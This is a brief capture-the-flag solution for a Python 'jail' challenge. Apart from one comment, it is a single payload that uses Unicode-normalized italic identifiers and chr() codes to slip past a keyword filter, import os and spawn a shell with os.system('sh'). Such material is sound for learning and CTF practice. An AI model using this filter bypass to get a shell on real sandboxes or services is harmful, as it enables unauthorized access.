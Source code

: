 # baby\_python\_fixed (Jail 133)
# bypass filter with normalization.

𝘹=__𝘪𝘮𝘱𝘰𝘳𝘵__(𝘤𝘩𝘳(111)+𝘤𝘩𝘳(115));𝘹.𝘴𝘺𝘴𝘵𝘦𝘮(𝘤𝘩𝘳(115)+𝘤𝘩𝘳(104))

